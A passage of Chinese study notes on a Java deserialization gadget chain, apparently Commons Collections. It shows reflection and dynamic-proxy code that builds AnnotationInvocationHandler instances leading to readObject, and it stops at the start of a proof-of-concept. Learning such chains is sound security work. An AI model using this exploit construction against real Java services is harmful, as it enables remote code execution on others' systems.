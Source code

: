 - 条件：对方法名和参数类型做一些限制，方法参数数量必须为0，方法名不能为equals，方法名不能为toString、hashCode、annotationType。

- **那什么时候会调用AnnotationInvocationHandler的invoke方法呢，find usage并没有找到有用的。**

- **这条链子用到了动态代理**。当调用到被代理对象的任何方法时（**这个方法满足上述条件**），都会先调用InvocationHandler接口中的invoke方法，而AnnotationInvocationHandler正好实现了该接口。

    - ```java
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
                Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
                ctor.setAccessible(true);
                InvocationHandler handler = (InvocationHandler) ctor.newInstance(Target.class, outerMap);//得到我们构造好的 AnnotationInvocationHandler类实例
        
                //创建一个Map代理类,当map对象任意函数调用的时候，都会执行handler的invoke函数
                Map proxymap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        ```

- map类的函数需要满足，方法参数数量必须为0，方法名不能为equals，方法名不能为toString、hashCode、annotationType。这样的函数有很多，`entrySet()`函数就是其中一个。

- 再找找哪里调用了这个函数。有很多，而且发现`AnnotationInvocationHandler`的`readObject`方法调用了，这就直接找到source了。

    - ```java
            private void readObject(java.io.ObjectInputStream s)
                throws java.io.IOException, ClassNotFoundException {
                s.defaultReadObject();
        
                // Check to make sure that types have not evolved incompatibly
        
                AnnotationType annotationType = null;
                try {
                    annotationType = AnnotationType.getInstance(type);
                } catch(IllegalArgumentException e) {
                    // Class is no longer an annotation type; time to punch out
                    throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
                }
        
                Map<String, Class<?>> memberTypes = annotationType.memberTypes();
        
                // If there are annotation members without values, that
                // situation is handled by the invoke method.
           		//找到了。
                for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        ```

- 所以就再生成一个AnnotationInvocationHandler对象，为了反序列化用，这个时候传入的是代理类。

    - ```java
        InvocationHandler instance = (InvocationHandler) ctor.newInstance(Target.class, proxymap);
        ```

- poc

    - ```java
        package cc;
        